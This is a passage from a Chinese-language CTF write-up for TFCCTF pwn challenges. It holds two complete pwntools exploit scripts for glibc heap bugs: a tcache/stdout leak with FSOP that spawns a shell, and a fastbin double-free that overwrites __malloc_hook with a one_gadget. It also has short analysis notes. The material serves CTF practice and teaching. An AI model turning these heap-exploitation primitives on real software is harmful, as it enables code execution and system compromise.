def _exit():
    ru('*> ')
    sl('3')

import socks
import socket

socks.set_default_proxy(socks.SOCKS5, '192.168.31.249', 10808)
socket.socket = socks.socksocket

for asf in range(0x100):
    #io =  remote('challs.tfcctf.com',31472)
    #io =  remote('127.0.0.1',1337)
    io = start(binary)
    libc = ELF('./libc.so.6')
    #add(0x450)
    add(0x3d8) #idx 0
    add(0x3e8) #idx 1

    rm(0)
    rm(1)


    add(0x6f8) # idx 2
    add(0x6f8) # idx 3
    add(0x6f8) # idx 4

    rm(2)
    rm(3)

    add(0x90 * 7 + 0x50) # idx 5
    add(0x468) # idx 6


    rm(5)
    rm(6)
    rm(4)


    add(0x68) # 7

    add(0x88) # 8
    add(0x88) 
    add(0x88) 
    add(0x88) 
    add(0x88) 
    add(0x88) 
    #pay = p64(0) + p64(0x471)
    pay = p64(0) + p64(0x921)
    add(0x88,0x70,pay) # 14

    add(0x88) # 15
    add(0x18) # 16

    add(0x88) # 17
    add(0x18) # 18

    add(0x88) # 19
    add(0x18) # 20

    unsorted_start  = 15
    unsorted_middle = 17
    unsorted_end    = 19


    for i in range(34):
        add(0x6F8) #21 55

    add(0x208-0x70) # 55
    #
    pay = p64(0x10000) + p64(0x20)
    end_of_fake = 50
    add(0x18,0,pay) # 56

    for i in range(8,15):
        rm(i)

    rm(6)

    pay = p64(0) + p64(0x91)
    add(0x28,0,pay) # 57

    rm(57)

    add(0x128,0,'R') # 58
    add(0x18,0,p64(0)+p64(0x91)) #59

    rm(59)

    add(0x4f8) # 60
    add(0x298) # 61
    pay = p64(0) + p64(0x921)
    add(0x88,0x70,pay) # 62

    rm(62)
    rm(6)

    add(0x98+0x20+0x90+0x20-0x40,0,p64(0)+ p64(0x91)) # 63
    pay = p64(0) * 3 + p64(0x21)
    pay += p64(0) + p64(0x21)
    pay += p64(0) + p64(0x91)
    add(0x48,0,pay) # 64

    add(0x4f8) # 65
    add(0x298) # 66

    rm(unsorted_end)
    rm(unsorted_middle)
    rm(unsorted_start)


    pay = p64(0) + p64(0xa1+0x20+0x90+0x20+0x90)
    add(0x88,0x70,pay) # 67
    rm(14)
    rm(6)

    add(0x1f0,0x178,p16(0x8080)) # 修改  unsortedbin[0] fd

    rm(68)
    pay = p64(0x91) + p16(0x8080) # 修改  unsortedbin[2] bk
    add(0x1f0,8,pay) # 69
    #gdb.attach(io,gdbscript)


    try:
        add(0x288,8,p16(0x45d0)) # 伪造成功的情况下, 会成申请到Tache Perthread Struct上， 然后修改 0x30链表的地址，使其指向 _IO_2_1_stdout_ 附近
        add(0x28,0x18,p8(0x53)) # 申请到 stdout
        ru('guavas: ')
        ru('guavas: ')
        r(5)
        libc_base = uu64(r(6)) - 2119440
        if (libc_base&0xFFFF!=0x000):
            print(xx)
    except:
        io.close()
        continue
    libc.address = libc_base
    lss('libc_base')
    print(asf)
    sleep(3)
    #pause()

    rm(70)
    add(0x288,0x1e0,p64(libc.sym['_IO_2_1_stdout_']))


    fake_IO_addr = libc.sym['_IO_2_1_stdout_']
    pay = flat({
        0x00: '  sh;',
        0x18: libc.sym['system'],
        0x20: fake_IO_addr, # 0x20 > 0x18
        0x68: 0,                # rdi  #read fd
        0x70: fake_IO_addr,     # rsi  #read buf
        0x88: fake_IO_addr + 0x8,     # rdx  #read size
        0xa0: fake_IO_addr,
        0xa8: libc.sym['read'], # RCE2 ogg
        0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
        0xe0: fake_IO_addr,
    },filler=b'\x00')


    add(0x3d8,0,pay)
    sl('\ncat flag.txt\n')
    itr()
```

‍

## CBACK2DABASICS

- 题解数：10 solves
- 难度：medium

‍

### 题目分析

和 MCGUAVA 题目差不多，glibc.2.24 只能申请 fastbin 范围的chunk

然后UAF漏洞，利用 双重free ,也需要一点的爆破地址，

‍

- 然后风水一下就行了

### exploit

‍

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    #elif args.REM: return remote('127.0.0.1',1337)
    elif args.REM: return remote('challs.tfcctf.com',31364)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './chall'
libelf = ''
try:
    elf  = ELF(binary);rop = ROP(binary)
    libc = ELF(libelf) if libelf else elf.libc
    ''' Load binary and libraries '''
except: exit(0)

gdbscript = '''
brva 0x00A8A
#continue
'''.format(**locals())


def add(size,text='A'):
    ru('[+]> ')
    sl('1')
    ru('[+]> ')
    sl(str(size-1))
    ru('?\n')
    s(text)
def rm(idx):
    ru('[+]> ')
    sl('2')
    ru('[+]> ')
    sl(str(idx))

def add_2(size,text='A'):
    ru('[+]> ')
    sl('1')
    ru('[+]> ')
    sl(str(size-1))
    ru('?')
    s(text)


for asf in range(100):

    io = start(binary)
    add(0x28) # 0
    add(0x28) # 1
   
    rm(1)
    rm(0)
    rm(1)

    add(0x28,p8(0x70)) # 2
    add(0x28,p8(0x70)) # 3

    add(0x28,p8(0x70)) # 4

    add(0x38,p64(0)+p64(0x31)) # 5


    add(0x68) # 6
    add(0x68) # 7
    add(0x68) # 8
    add(0x68) # 9


    add(0x28) # 10

    rm(5)

    size = 0xa1 + 0x70 * 2
    add(0x38,p64(0)+p64(size)) # 11

    rm(10)

    add(0x58) # 12
    add(0x38) # 13

    add(0x68) # 14
    #add(0x68,p16(0x1acd)) # 15
    add(0x68,p16(0x25bd)) # 15

    rm(14)
    rm(6)
    #
    rm(12)
    #
    pay  = p64(0) * 5 + p64(0x71)
    pay += p8(0x80)
    add(0x58,pay) # 16


    add(0x68) # 17
    add(0x68) # 18
    #add(0x68)


    rm(5)

    size = 0xa1 + 0x70 * 2
    add(0x38,p64(0)+p64(0xa1)) # 19

    rm(10)

    add(0x38,'B') # 20

    pay  = b'AAA'
    pay += p64(0) * 6
    pay += p64(0xFBAD1800) + p64(0) * 3 + p8(0)
    try:
        add(0x68,pay) # 21
        r(0x20)
        libc_base = uu64(r(6)) - 3941888
        if (libc_base&0xFFF != 0x0):
            print(asd)
        lss('libc_base')
    except:
        io.close()
        continue
    print(asf)
    ogg = [0x4557a,0xf1651,0xf24cb]
    print('='*0x30)
    sleep(3)
    lss('libc_base')
  
    add_2(0x68) # 22
    add_2(0x68) # 23

    rm(22)
    rm(23)
    rm(22)
    __malloc_hook = libc_base + libc.sym['__malloc_hook'] - 0x23
    add_2(0x68,p64(__malloc_hook)) # 24
    add_2(0x68,p64(__malloc_hook)) # 25
   
    add_2(0x68) # 26
    pay = (0x13-8) * b'A' + p64(libc_base + ogg[0]) + p64(libc_base + libc.sym['realloc']) # realloc 调stack
    add_2(0x68,pay) # 27

    #gdb.attach(io,gdbscript)
    sl('1')
    sl('2')
    itr()


```

‍

## VIRTUAL

- 题解数：16 solves
- 难度：medium

### 题目分析

- 一道 vm 题需要简单的逆向一下

‍

‍

## END

‍
